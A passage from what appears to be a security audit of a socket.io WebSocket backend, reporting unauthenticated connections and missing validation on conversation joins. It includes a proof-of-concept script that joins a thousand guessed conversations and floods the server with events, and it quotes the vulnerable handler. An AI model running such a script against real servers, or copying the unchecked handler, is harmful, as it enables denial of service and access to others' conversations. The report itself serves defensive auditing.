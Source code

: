 **Attack Vector:**

1. **Unauthenticated Connection Phase:**
   - Attacker connects without authentication
   - Can send arbitrary events before being disconnected
   - Potential for DoS or event flooding

**Proof of Concept:**

```javascript
// Attacker's script
const io = require('socket.io-client');

const socket = io('https://[server-deployment].vercel.app', {
  transports: ['websocket']
});

// Connected without authentication!
socket.on('connect', () => {
  console.log('[+] Connected without auth!');
  
  // Try to join conversations
  for (let i = 0; i < 1000; i++) {
    socket.emit('join-conversation', `conversation-${i}`);
  }
  
  // Flood with events
  setInterval(() => {
    socket.emit('message', { spam: 'data' });
  }, 1);
});
```

**Impact:**
- DoS via connection flooding
- Event spam before disconnect
- Resource exhaustion

---

### 5.2 MEDIUM: Missing WebSocket Message Validation

**Severity:** MEDIUM  
**CVSS Score:** 5.5

**Vulnerability Description:**

WebSocket events lack validation:

```javascript
io.on('connection', (socket) => {
  socket.on('join-conversation', (conversationId) => {
    if (socket.username) socket.join(`conversation:${conversationId}`);
    // ↑ No validation of conversationId!
    // No check if user is actually in this conversation!
  });
});
```

